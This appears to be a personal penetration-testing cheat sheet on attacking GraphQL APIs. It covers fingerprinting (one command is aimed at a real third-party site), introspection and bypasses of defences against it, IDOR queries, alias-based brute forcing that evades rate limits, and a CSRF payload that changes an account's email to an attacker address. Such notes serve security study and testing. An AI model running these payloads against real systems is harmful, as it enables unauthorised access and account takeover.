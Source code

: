 # Fingerprint
```bash
git clone https://github.com/dolevf/graphw00f.git && cd graphw00f

# edit config file to specify UA and headers first
python main.py -d -f -t https://www.datacamp.com/groups/graphql
```

# Client
https://github.com/graphql/graphiql
```bash
npx graphiql
sudo npm install -g graphiql && graphiql

# http://localhost:4000/graphql
```

# Visualize introspected schema

# Test for graphql endpoints
Universal query
```graphql
query{__typename}
```
always returns
```json
{"data": {"__typename": "query"}}
```

Common endpoint names:
* /graphql
* /api
* /api/graphql
* /graphql/api
* /graphql/graphql
If these common endpoints don't return a GraphQL response, you could also try appending /v1 to the path. 

request methods
Common is `POST` with `application/json`, but it can variate.

#  Exploiting unsanitized arguments
For example:
```graphql
query {
	products {
		id
		name
		listed
	}
}
```
   returns
```graphql
    {
        "data": {
            "products": [
                {
                    "id": 1,
					...
                },
                {
                    "id": 2,
					...
                },
                {
                    "id": 4,
					...
                }
            ]
        }
    }
```        
so we can try to access the third product: [[IDOR]]
```graphql
query {
	product(id: 3) {
		id
		name
		listed
	}
}
```    
#  Discovering schema information
### Introspection 
###### Burp Suite:
`GraphQL > Set introspection query`
##### Request example
```graphql
{
	"query": "{__schema{queryType{name}}}"
}
```
######  Visualizing introspection results 
https://graphql-kit.com/graphql-voyager/
 http://nathanrandal.com/graphql-visualizer/
### Suggestions
Used when instrospection is disabled.
Suggestions are messages like this:
`There is no entry for 'productInfo'. Did you mean 'productInformation' instead?`
Can be automated with https://github.com/nikitastupin/clairvoyance or Burp scanner.

###  Bypassing GraphQL introspection defenses 
`__schema` can be disabled using regex by developers.
```graphql
{
	"query": "query{__schema
	{queryType{name}}}"
}
```
Also try a `GET` request, or a `POST` request with a content-type of `x-www-form-urlencoded`.

# Bypassing rate limiting using aliases
#rate-limiting [[Brute Force]] #auth 
Aliases allows to make several queries inside one HTTP request.
It can be used for brute-force. Example:
```graphql
query isValidDiscount() {
	isvalidDiscount(code: 1){
		valid
	}
	isValidDiscount2:isValidDiscount(code: 2){
		valid
	}
	isValidDiscount3:isValidDiscount(code: 3){
		valid
	}
}
```

# Graphql [[CSRF]]
Possible if graphql endpoint doesn't validate `Content-Type` and `x-www-form-urlencoded` works.
Example:
```
query=mutation changeEmail($input: ChangeEmailInput!) {changeEmail(input: $input) {email}}&variables={"input":{"email":"attacker@evil.com"}}
```


# Tools
```
git clone --depth 1 https://github.com/dolevf/graphql-cop && cd graphql-cop

python3 graphql-cop/graphql-cop.py -t http://172.17.0.2/graphql
```
